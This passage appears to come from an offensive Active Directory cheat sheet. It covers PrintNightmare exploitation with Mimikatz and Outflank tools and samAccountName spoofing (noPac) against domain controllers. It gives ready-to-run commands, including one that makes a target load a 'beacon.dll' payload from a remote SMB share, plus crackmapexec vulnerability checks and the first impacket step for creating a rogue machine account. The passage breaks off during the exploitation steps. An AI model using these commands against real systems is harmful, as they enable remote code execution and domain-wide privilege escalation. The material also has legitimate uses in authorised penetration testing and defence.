   ```powershell
  misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
  ```
* [PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)
  ```powershell
  PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
  ```

**Debug informations**

| Error  | Message             | Debug                                    |
|--------|---------------------|------------------------------------------|
| 0x5    | `rpc_s_access_denied` | Permissions on the file in the SMB share |
| 0x525  | `ERROR_NO_SUCH_USER`  | The specified account does not exist.    |
| 0x180  | unknown error code  | Share is not SMB2                        |


#### samAccountName spoofing

> During S4U2Self, the KDC will try to append a '\$' to the computer name specified in the TGT, if the computer name is not found. An attacker can create a new machine account with the sAMAccountName set to a domain controller's sAMAccountName - without the '\$'. For instance, suppose there is a domain controller with a sAMAccountName set to 'DC\$'. An attacker would then create a machine account with the sAMAccountName set to 'DC'. The attacker can then request a TGT for the newly created machine account. After the TGT has been issued by the KDC, the attacker can rename the newly created machine account to something different, e.g. JOHNS-PC. The attacker can then perform S4U2Self and request a TGS to itself as any user. Since the machine account with the sAMAccountName set to 'DC' has been renamed, the KDC will try to find the machine account by appending a '$', which will then match the domain controller. The KDC will then issue a valid TGS for the domain controller.

**Requirements**

* MachineAccountQuota > 0

**Check for exploitation**

0. Check the MachineAccountQuota of the account
  ```powershell
  crackmapexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost 10.10.10.10 -M MAQ
  StandIn.exe --object ms-DS-MachineAccountQuota=*
  ```
1. Check if the DC is vulnerable
  ```powershell
  crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac
  ```

**Exploitation**

0. Create a computer account
    ```powershell
    impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'
